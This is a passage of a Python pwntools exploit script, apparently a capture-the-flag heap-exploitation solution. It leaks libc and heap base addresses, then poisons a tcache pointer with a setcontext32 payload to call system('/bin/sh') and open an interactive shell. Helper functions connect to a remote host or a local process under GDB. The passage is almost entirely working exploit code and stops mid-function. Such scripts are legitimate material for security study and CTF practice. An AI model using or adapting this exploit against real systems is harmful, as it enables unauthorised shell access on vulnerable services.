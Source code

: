 ```python
    libc_leak_offset = 0x1ECBE0
    libc_base = libc_leak_int - libc_leak_offset
    print(f'libc_base: {hex(libc_base)}')
    validate_leaked_addresses(io, libc_base=libc_base)
    libc.address = libc_base

    new(b"6", b"1200", "ABCD")

    heap_leak = view(b"3")
    heap_leak_int = int.from_bytes(heap_leak, 'little')
    heap_leak_offset = 0xB80
    heap_base = heap_leak_int - heap_leak_offset
    print(f'heap_leak: {heap_base}')
    validate_leaked_addresses(io, heap_base=heap_base)

    tcache_pointer = heap_base + 0x10
    dest, payload = setcontext32(
        libc, rip=libc.sym["system"], rdi=libc.search(b"/bin/sh").__next__()
    )
    edit(b'1', b'ABCD' * 6 + p64(0x21) + p64(dest) + p64(tcache_pointer))

    new(b"7", b"1010", b"G")
    new(b"8", b"1010", payload)

    io.interactive()
    clean_up()







### Helper start

def start_conn():
    if args.REMOTE:
        log.info(Template('Starting with remote connection to $HOST on port $PORT...').substitute(HOST=sys.argv[1], PORT=sys.argv[2]))
        io = remote(sys.argv[1], sys.argv[2])
    else:
        log.info('Starting locally...')
        io = process([exe.path], env=ENV_VARS)
        if args.GDB:
            log.info('Starting with GDB...')
            gdb.attach(io, gdbscript=gdbscript, exe=exe.path)
    return io


def get_string_between(res, first_const_str, second_const_str):
    return res.split(first_const_str)[1].split(second_const_str)[0]


def get_mapping_offset(proc_mapping, search_for):
    heap_offset = 0
    for i, mapping in enumerate(proc_mapping):
        if search_for in mapping:
            heap_offset = i
            break
    return heap_offset


def validate_leaked_addr(proc_mapping, offset, given_addr, addr_name):
```